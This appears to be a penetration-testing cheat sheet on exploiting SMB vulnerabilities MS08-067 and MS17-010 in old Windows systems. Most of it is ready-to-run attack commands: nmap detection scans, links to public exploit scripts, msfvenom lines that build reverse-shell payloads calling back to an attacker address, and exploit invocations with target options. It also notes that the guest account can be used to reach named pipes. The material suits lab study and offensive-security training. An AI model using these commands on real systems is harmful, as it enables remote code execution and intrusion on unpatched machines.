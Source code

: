 # 11. SMB common exploitation  

## MS08-067 (Windows 2000/XP/2003)
### Detection  
```bash
nmap --script smb-vuln-ms08-067 <ip_netblock> -p445  
nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 10.10.10.4  
```  
  
### Where 
- [https://raw.githubusercontent.com/jivoi/pentest/master/exploit\_win/ms08-067.py](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py)  
  
### Exploitation 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows  

# Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
# Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
# Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
# Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
# Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
# Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
# Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
python ms08-067.py 10.0.0.1 6 445
```
  

## MS17-010 (No Metasploit)
### MS17-010 (EternalChampion) -> Need accessible Named Pipe
Notes :
- Windows XP / 2003
- Windows 7 (Need credentials or anonymous connection allowed to access to named pipe)

Detection:
```bash
nmap  --script=smb-vuln-ms17-010 <ip_netblock> -p445
nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 10.10.10.4
```

Where:
- git clone https://github.com/helviojunior/MS17-010

Exploitation:
```bash
# Named pipes file:
# cat /usr/share/metasploit-framework/data/wordlists/named_pipes.txt
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o revshell.exe
python2 send_and_execute.py 10.0.0.1 revshell.exe
```

NOTES
- Since Windows Vista, default settings does not allow anonymous to access any named pipe
- In order to exploit this vulnerability some credentials need to be used.
	- Using the “guest” can be a valid solution. This account doesn't need any password and thus allow us to access a named pipe and get code execution